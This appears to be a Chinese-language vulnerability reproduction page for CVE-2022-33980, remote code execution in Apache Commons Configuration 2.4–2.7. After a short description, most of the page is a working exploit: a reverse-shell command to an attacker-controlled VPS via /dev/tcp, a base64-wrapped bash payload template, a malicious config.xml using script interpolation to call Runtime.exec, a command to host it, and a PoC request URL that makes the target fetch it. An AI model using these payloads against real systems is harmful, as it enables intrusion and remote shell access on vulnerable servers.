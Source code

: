 # Apache Commons Configuration 远程命令执行漏洞 CVE-2022-33980

## 漏洞描述

Apache Commons Configuration 是 Apache 基金会下的一个开源项目组件。它提供了一种通用的方式，让 Java 开发者可以使用统一的接口读取不同类型的配置文件。

该漏洞是由于 Apache Commons Configuration 提供的 Configuration 变量解释功能存在缺陷，攻击者可利用该漏洞在特定情况下，构造恶意数据执行远程代码。

## 漏洞影响

```
2.4 <= Apache Commons Configuration <=2.7
```

## 漏洞复现

java payload：

```
# bash -i >& /dev/tcp/your-vps-ip/port 0>&1
bash -c {echo,<YOUR_PAYLOAD_HERE>}|{base64,-d}|{bash,-i}
```

config.xml：

```
<?xml version="1.0" encoding="ISO-8859-1" ?>
<configuration>
        <path>${script:js:java.lang.Runtime.getRuntime().exec("bash -c {echo,<YOUR_PAYLOAD_HERE>}|{base64,-d}|{bash,-i}")}</path>
</configuration>
```

vps 开启 8888 端口托管 config.xml：

```
python -m http.server 8888
```

poc：

```
http://vuln-ip/Url?url=http://your-vps-ip:8888/config.xml&data=path
```

![](images/Apache%20Commons%20Configuration%20远程命令执行漏洞%20CVE-2022-33980/image-20240126181851899.png)
